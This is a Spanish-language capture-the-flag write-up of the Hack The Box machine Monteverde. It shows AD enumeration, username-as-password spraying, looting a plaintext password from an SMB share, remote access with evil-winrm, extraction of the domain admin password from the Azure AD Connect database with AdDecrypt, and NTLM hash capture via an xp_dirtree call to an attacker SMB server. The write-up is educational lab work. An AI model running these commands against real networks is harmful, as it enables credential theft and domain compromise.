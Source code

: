 # 10.10.10.172 - Monteverde
![Monteverde](https://user-images.githubusercontent.com/96772264/203120059-a91759f6-7593-491c-ae04-47d10b3e01d9.png)

-------------------------
# Part 1: Reconocimiento inicial y obtención de credenciales

Puertos abiertos -> 88(kerberos), 135(rpc), 139, 464, 5985(winrm)  
Con crackmapexec podemos hacer un reconocimiento del dominio como sacar el nombre y sistema:  
```console
└─$ crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

## Puerto 135 RPC:
Tenemos suerte y podemos tirar de una null session:  
```console
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users.txt
# Una buena lista de usaurios
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomgroups"
# Nos copiamos en un archivo de texto los grupos, ya que hay alguno interesante. No tenemos el clásico domain admins pero si Azure Admins
└─$ rpcclient -U "" 10.10.10.172 -N -c "querygroupmem 0xa29" 
# Los de Azure -> 0x1f4, 0x450, 0x641. EL problema esque si preguntamos por queryuser y uno nos da access denied
```

## Puerto 88 kerberos:  
```console
└─$ kerbrute userenum --dc 10.10.10.172 -d megabank.local users.txt
# Todos validos
└─$ /usr/bin/impacket-GetNPUsers megabank.local/ -no-pass -usersfile users.txt  
# Todos tienen el UF_DONT_REQUIRE_PREAUTH seteado, asi que nada de contraseñas.
```

## SMB - Crackmapexec  
Como no tenemos creds, se pueden sacar de maneras como el nombre de la máquina, o...    
El nombre del propio usaurio (u otro usuario por si son pareja). Un error como un piano.  
```console
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-succes 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Probamos otro ultimo ataque por kerberos al conseguir creds:
```console
└─$ impacket-GetUserSPNs megabank.local/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -request
# No hay suerte
```
---------------------------
# Part 2: Acceso al sistema

Seguimos con SMB. Voy mostrando los unicos lugares que no están vacíos    
```console
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
# Tenemos acceso a "azure_uploads", "IPC$", "NELOGON", "SYSVOL" y users$"" 
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r "users$"
# Hay varias carpetas "dgalanos", "mhope", "smorgan" y "roleary". Solo mhope tiene un archivo "azure.xml"
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download "users$/mhope/azure.xml"
└─$ cat 10.10.10.172-users_mhope_azure.xml 
<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<S N="Password">4n0therD4y@n0th3r$</S>
```
El mhope este era uno de los usaurios que obtuvimos del RPC, y esta parece su contraseña.  
```console
└─$ crackmapexec smb 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```
En efecto. Vuelvo a probar el GetUsersSPNs con estas nuevas creds pero tampoco. Con el smbmap no encuentro nada más que con la otra chica.  
```console
└─$ crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
└─$ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'  
*Evil-WinRM* PS C:\Users\mhope\Documents>
```
Tras una enumeración con mi script de windows  
- Nuestro mhope pertenece a "Azure Admins" y "Domain Users"  
- Hay backups del SAM y system en C:\Windows\System32\config\  

---------------------------
# Part 3: Explotación de Azure AD

Al ser un dominio Azure está configurado de manera diferente, remota. Al ser algo instalado de fuera habría que mirar en "Program Files":  
```console
*Evil-WinRM* PS C:\Program Files> dir | findstr "Azure"
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

En este [articulo](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) hablan de uan vuln en Azure AD que permite obtener
las creds del Administrador subiendo dos archivos:  
- Habría que descargarse la [release](https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip) y subirla al sistema
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/mcrypt.dll
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/AdDecrypt.exe
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Desktop\AdDecrypt.exe -FullSQL
Username: administrator
Password: d0m@in4dminyeah!
```

Ahora te podrias conectar como admin ```evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'```

--------------------------------------
# Extra: Analizando la vuln de Azure

Investigué mas en profundidad esta vuln gracias a estos articulos: 
[Fuente](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)    
[FUente 2](https://blog.xpnsec.com/azuread-connect-for-redteam/)    
[Video](https://www.youtube.com/watch?v=JEIR5oGCwdg)    

El servicio "Azure AD Connect" conecta el directorio activo local con la plataforma de dominios de Azure. Dicho servicio, (para gestionar desde
Azure tu sistema) necesita credenciales de administrador. 
El zip que te descargas tiene estos dos programas que subes:   
- **AdDecrypt.exe** -> Las creds se sacan de una SQL llamada "ADSync" (tablas mms_management y mms_server) y se desencriptan.     
- **mcrypt.dll** -> Codigo en C# que se encarga de descenriptar lo sacado antes (DPAPI)  

Ivestigando el articulo de esa persona podemos navegar por las bases de datos que dice:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "select name from sys.databases"
master, tempdb, model, msdb, ADSync

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "xp_dirtree '\\10.10.14.12\carpeta'"
└─$ impacket-smbserver carpeta $(pwd) -smb2support

[*] MONTEVERDE$::MEGABANK:aaaaaaaaaaaaaaaa:51e2852a7fe64f40ec474fe257c9eec8:0101000000000000001e935bacfdd80160fc5fcc717a077e00000000010010005700460047007800730059006d005800030010005700460047007800730059006d00580002001000670074006d006d00790075006e00610004001000670074006d006d00790075006e00610007000800001e935bacfdd80106000400020000000800300030000000000000000000000000300000c42f279549204924bbc39fce074dc6fdd4df5f988eee2073af01708ebd8864090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000
```
Vemos que se ha enviado un hash por ahí que hemos interceptado, es decir alguien ( megabank.local) se ha autenticado contra alguien (Azure).  
Si vemos el script del artículo e intentamos replicar la query:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
Invalid object name 'mms_management_agent'

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select private_configuration_xml,encrypted_configuration from mms_management_agent"
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select keyset_id,instance_id,entropy from mms_server_configuration"
keyset_id   instance_id                          entropy
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Obtenemos las dos cosas que necesita para obtener las credenciales.  La cadena "8AAAAAgAAABQhCBBnwTpdfQE6uNJe..." está en base 64, si se decodifica
salen caracteres sin sentido (que supongo que será el texto cifrado). Si le haces ```xxd -ps | xargs``` obtendrías todos los bytes. Esto se lo pasa al
**mcrypt.dll** que lo rompe.  

Mas detalles se escapan de mi entendimiento, pero al menos hemos sacado una idea de lo que está haciendo a grosso modo.  
